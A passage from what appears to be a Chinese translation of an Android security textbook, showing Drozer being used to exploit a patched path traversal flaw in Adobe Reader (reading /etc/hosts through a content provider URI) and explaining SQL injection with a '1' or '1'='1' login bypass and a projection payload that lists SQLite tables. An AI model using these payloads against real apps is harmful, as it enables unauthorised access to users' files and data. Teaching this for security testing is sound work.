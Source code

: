 此漏洞也可以使用我们之前讨论的工具 Drozer 进行检查。 在这里，我们用例子来说明由 Seafastian Guerrero 发现的 Adobe Reader Android 应用程序漏洞（`http://blog.seguesec.com/2012/09/path-traversal-vulnerability-on-adobe-reader-android-application`）。 此漏洞存在于 Adobe Reader 10.3.1 中，并在以后的版本中进行了修补。 你可以从`http://androiddrawer.com`下载各种 Android 应用程序的旧版本。

我们将启动 Drozer，并运行`app.provider.finduri`模块来查找内容供应器 URI。

```
dz> run app.provider.finduri com.adobe.reader
Scanning com.adobe.reader...
content://com.adobe.reader.fileprovider/
content://com.adobe.reader.fileprov
```

一旦我们找到了 URI，我们现在可以使用`app.provider.read`搜索并利用本地文件包含漏洞。 在这里，我尝试从系统中读取一些文件，如`/etc/hosts`和`/proc/cpuinfo`，它们默认存在于所有的 Android 实例中，因为它是基于 Linux 的文件系统。

```
dz> run app.provider.read content://com.adobe.reader.fileprovider/../../../../etc/hosts 
127.0.0.1           localhost
```

正如我们在下面的屏幕截图中看到的，我们已经成功地使用 Adobe Reader 漏洞内容供应器读取了 Android 文件系统中的文件。

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lpad/img/3-5-1.jpg)

### 客户端注入攻击

客户端攻击通常发生在应用程序未检查用户输入的时候。 例如，在对 SQLite 数据库的查询期间，应用程序正在解析用户输入，因为它位于查询语句中。

让我们举一个应用程序的示例，它检查本地 SQLite 数据库，来根据登录凭据验证用户。 因此，当用户提供用户名和密码时，正在运行的查询将如下所示：

```sql
SELECT * FROM 'users' where username='user-input-username' and password='user-input-password'
```

现在，在正常情况下，这将正常工作，用户输入其真正的登录凭据，并且查询取决于条件将返回`true`或`false`。

```sql
SELECT * FROM 'users' where username='aditya' and password='mysecretpass
```

但是，如果攻击者输入 SQL 语句而不是正常的用户名怎么办？ 请参考以下代码：

```sql
SELECT * FROM 'users' where username='1' or '1' = '1' - - and password='mysecretpassword
```

因此，在这种情况下，即使用户不知道用户名和密码，他们可以通过使用`1'or'1'='1`查询来轻松绕过它，这在所有情况下都返回`true`。 因此，应用程序开发人员必须在应用程序中进行适当的检查，来检查用户输入。

我们还可以使用 Drozer 的`app.provider.query`来利用 SQL 注入漏洞。 其语法看起来像：

```
run app.provider.query [Content Provider URI] --projection  "* FROM SQLITE_MASTER WHERE type='table';- -"
```

现在，这将返回 SQLite 数据库中整个表的列表，它的信息存储在`SQLITE_MASTER`中。 您还可以继续并执行更多的 SQL 查询，来从应用程序提取更多的信息。 为了使用 Drozer 实战漏洞利用，你可以从`https://www.mwrinfosecurity.com/products/drozer/community-edition/`下载他们的漏洞应用程序。

## 3.6 OWASP 移动 Top10
